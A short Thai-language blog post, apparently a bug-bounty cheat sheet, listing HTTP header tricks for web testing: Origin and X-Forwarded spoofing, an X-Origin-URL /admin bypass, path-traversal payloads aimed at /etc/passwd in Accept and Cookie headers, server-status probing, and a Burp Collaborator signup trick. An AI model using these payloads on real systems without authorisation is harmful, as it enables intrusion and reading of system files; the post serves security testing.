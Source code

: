 ```yaml
---
title: ลองเเฮ้กเบิ่ง พะนา
date: '2021-01-29'
path: /post/try-to-do-this
tags: hacking
layout: post
---
```


#### HTTP Header

ค้นหาช่องโหว่โดยการเปลี่ยน HTTP Header

```
Accept: application/json, text/javascript, */*; q=0.01
```

เจ้าลองเพิ่ม HTTP Header อันนี่เด้อ

```
Origin: example.com // หึว่ากะลังทดสอบ ais.co.th ยุพะนะ ลอง Origin: example.ais.co.th, exmaple.ais.co.th.net
X-Forwarded-For:
X-Forwarded-Host:
X-Forwarded-Photo:
X-Origin-URL: /admin \\ ลองถึงมันตอบกลับมา 403,401 กะลองใส่อันนี่เบิ่ง ลองถือมันตอบกลับมา 200
Accept: ../../../../../../../../../../etc/passwd{{
Cookie: usid=../../../../../../../../../../../../etc/passwd
/server-status?full
```

#### ภาคผนวก

เจ้าเฮ้ดจั่งได่กะได้ ให้ JavaScript files มันอ่านง่ายๆ ละกะลองหาคำนี่เบิ่ง

```js
addEventListener;
postMessage;
eval;
```

สมัครบัญชี email@burp_collab -> Forget password <!= received requests from internal server + SMTP connection details
